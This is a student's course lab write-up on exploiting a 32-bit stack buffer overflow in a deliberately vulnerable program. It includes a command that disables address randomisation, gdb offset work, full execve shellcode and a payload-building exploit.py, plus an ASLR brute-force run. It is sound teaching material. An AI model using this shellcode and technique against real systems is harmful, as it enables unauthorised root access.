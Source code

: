 ## Assignment 2

### Comp 4580

#### Ryan Dotzlaw - 7881954

Do task 1, 2, 3, and 8.

### Task 1: Getting Familiar With Shellcode

For this task, compile and execute the 32-bit and 64-bit versions of the given `call_shelcode.c`.

Compiling and running `a32.out` gives:


![Shell](1b.png)


Compiling and running `a64.out` gives:


![Shell](1a.png)


From the results of both `a32.out` and `a64.out` we can see that executing them gives a root shell to the one who ran them.


### Task 2: Understanding the Vulnerable Program

In given `code/Makefile` set `L1` to `254` according to assignment instructions.

Then just compile the code using the given `Makefile`

![Compilation](2a.png)

### Task 3: Launching an Attack on a 32-bit Program

#### Preparing for the Attack

We have to disable some countermeasures built into Linux if we want to succeed with this basic buffer overflow.

Disable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=0
```

#### Investigating for the Attack

We need to gather some information before we can construct our payload.

The program we're going to be attacking is `stack-L1`, so we'll use the debug binary for it that we compiled to gather information about the stack.

We do this by using `gdb` and creating a breakpoint at the `bof` function.

![breakpoint](3breakpoint.png)

Then stepping forwards once with `next` and getting the value in the `$ebp` register.

![ebp](3ebp.png)

In actual execution the frame pointer will be larger, since `gdb` pushes some additional stuff onto the stack.

Without `gdb` the stack wouldn't have grown as much, so we need to keep this in mind when creating the payload.

Then we also want to get the address of the buffer variable.

![buffer address](3buffaddr.png)

The distance between the buffer address and the frame address is:

```
0xffffcb18 - 0xffffca12 = 0x106 (262 in decimal)
```


#### Preparing the Payload

We'll construct the payload in `badfile` using the given `exploit.py`, but we'll have to do some modifications.

`exploit.py` creates the file `badfile` by constructing a 517 `NOP` long string, then by overwriting part of it with the shellcode, and then another part with the return address.

The challenge comes from finding where to put the return address and the shellcode.

Modifying the `shellcode` variable to contain the following:

```
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
```

This defines the code that will launch the root shell.

Next we need to define where the shellcode will be placed using the `start` variable.

The simplest solution is to just place the shellcode at the very end, so we have a larger area of `NOP` instructions to hit with our return address.

So we set start to:

```
517 - len(shellcode)
```

Then we need to place the correct return address in the proper spot to overwrite the original return address.

From our investigation with `gdb`, we know the difference between where the buffer starts in memory and where the frame starts is `0x106`, so the return address is `+4` above that.

So our address needs to be placed at an offset of `0x10A`, so we set offset to `0x10A`.

Then we need to set value to overwrite the original return address with.

Because of our `NOP` sled, we can undershoot our shellcode by a decent bit and still reach it, but we can't overshoot or the exploit will fail.

We also need to remember that the address given to us was gotten when we were using `gdb`, which effects the position of the address by making it lower than it would be in normal execution (because the stack grows down).

To start with, I'll use the address we got plus `200`, setting the `ret` to:

```
0xffffcb18 + 200
```

View the full code for `exploit.py` in the appendix.

Then we generate `badfile` by running `python3 exploit.py`, and then we just have to run `./stack-L1`, getting this as a result:

![rootshell](3succ.png)

Meaning we've successfully executed arbitrary code using a buffer overflow.

### Task 8: Defeating Address Randomization

Now we need to re-enable address randomization with the following command:

```
sudo sysctl -w kernel.randomize_va_space=2
```

From there we can just run the given `brute_force.sh` which will keep running until we exhaust all the addresses and succeed.

This is only possible because the `stack-L1` program is 32-bit and there are only 2^19 addresses.

For 64-bit programs, the time it takes to do an attack like this is not feasible.

The result of running the brute force attack is as follows:

![rootshell](4shell.png)

It didn't take too long for it to succeed, only around 2 minutes with a total of 31,304 tries.

Considering there is a total of 524,288 (2^19) addresses, I only went through roughly a 16th of the possible addresses.

That means that I had good luck, as it could've taken potentially 16 times longer.

Realistically since the memory is structured the return address doesn't really have 524,288 potential positions, so a worst case wouldn't take you 32 minutes.

Even then, 32 minutes for a rootshell doesn't seem like a daunting amount of time for a hacker trying to gain access to a rootshell

### Appendix

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x80
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)             # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 200   # + 8 works with gdb     # Change this number 
offset = 0x10A            # Distance + 4 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```